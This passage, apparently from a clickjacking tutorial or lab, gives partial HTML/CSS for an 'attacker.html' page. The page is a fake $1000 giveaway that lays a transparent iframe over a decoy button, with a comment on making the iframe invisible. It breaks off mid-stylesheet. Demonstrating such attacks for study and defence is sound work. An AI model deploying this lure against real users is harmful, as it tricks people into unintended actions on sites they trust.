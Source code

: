 you jusr need to start server.

**Attacker's Page (attacker.html)**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Win $1000 - Free Giveaway!</title>
    <style>
        body {
            font-family: Arial;
            text-align: center;
            padding: 50px;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
        }
        
        h1 {
            font-size: 48px;
            margin-bottom: 10px;
        }
        
        .subtitle {
            font-size: 24px;
            margin-bottom: 30px;
        }
        
        .game-container {
            position: relative;
            width: 500px;
            height: 300px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.1);
            border-radius: 15px;
            overflow: hidden;
        }
        
        /* Transparent iframe overlaid on top */
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 500px;
            height: 300px;
            border: none;
            /* CHANGE THIS TO SEE THE ATTACK */
            opacity: 0.5; /* Set to 0.01 to make it invisible! */
            z-index: 2;
            pointer-events: auto;
        }
        
        /* Fake button underneath */
        .fake-button {
            position: absolute;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            z-index: 1;
            padding: 30px 60px;
            background: linear-gradient(45deg, #ff6b6b, #ff4444);
            color: white;
            font-size: 32px;
            font-weight: bold;
            border-radius: 15px;
```